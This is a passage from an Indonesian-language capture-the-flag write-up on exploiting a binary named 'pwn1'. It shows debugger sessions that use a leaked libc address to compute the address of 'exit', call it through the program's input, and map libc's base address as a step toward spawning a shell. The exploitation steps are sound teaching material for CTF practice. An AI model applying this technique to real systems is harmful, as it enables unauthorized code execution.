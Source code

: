 >note: Kita juga bisa mengkakulasikan dimana letak dari "setvbuf" dengan fungsi seperti dibawah ini.
```python
print(hex(0x7ffff7e34d10 - 0x7ffff7df6a70))
0x3e2a0
```
Kita akan mengurangi address yang diberikan dengan address yang kita sudah dapatkan dari fungsi di atar, dan hasilnya kita bisa mendapatkan address dari fungsi "exit"
```python
print(hex(0x7ffff7e34d10 - 0x3e2a0))
0x7ffff7df6a70
```
Sekarang kita akan menjalankan programnya
```
r
```

```
Starting program: /home/wowon/Downloads/tmp/pwn1 
-----------------------------------------
| Look                                   |
| If you had                             |
| One shot                               |
| Or one opportunity                     |
| To seize everything you ever wanted    |
| In one moment                          |
| Would you capture it                   |
| Or just let it slip?                   |
-----------------------------------------

It's dangerous to go alone! Take this: 7ffff7e34d10

Enter your shot: 0x7ffff7df6a70


Good luck
[Inferior 1 (process 127461) exited normally]
```
Kita keluar dari program dengan norman, mantap. Dari sini kita tahu bahwa kita bisa mengeksekusi sebuah fungsi di "libc".

Sekarang untuk mendapatkan shell di server kita butuh sebuah rumus untuk mempointer fungsi yang mengeksekusi shell dari "libc".

Pertama kita akan cari base address dari library "libc"
```js
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00555555554000 0x00555555555000 0x00000000000000 r-- /home/wowon/Downloads/tmp/pwn1
0x00555555555000 0x00555555556000 0x00000000001000 r-x /home/wowon/Downloads/tmp/pwn1
0x00555555556000 0x00555555557000 0x00000000002000 r-- /home/wowon/Downloads/tmp/pwn1
0x00555555557000 0x00555555558000 0x00000000002000 r-- /home/wowon/Downloads/tmp/pwn1
0x00555555558000 0x00555555559000 0x00000000003000 rw- /home/wowon/Downloads/tmp/pwn1
0x007ffff7db0000 0x007ffff7dd2000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7dd2000 0x007ffff7f4a000 0x00000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7f4a000 0x007ffff7f98000 0x0000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7f98000 0x007ffff7f9c000 0x000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7f9c000 0x007ffff7f9e000 0x000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7f9e000 0x007ffff7fa4000 0x00000000000000 rw- 
0x007ffff7fc9000 0x007ffff7fcd000 0x00000000000000 r-- [vvar]
0x007ffff7fcd000 0x007ffff7fcf000 0x00000000000000 r-x [vdso]
0x007ffff7fcf000 0x007ffff7fd0000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7fd0000 0x007ffff7ff3000 0x00000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ff3000 0x007ffff7ffb000 0x00000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffc000 0x007ffff7ffd000 0x0000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffd000 0x007ffff7ffe000 0x0000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
```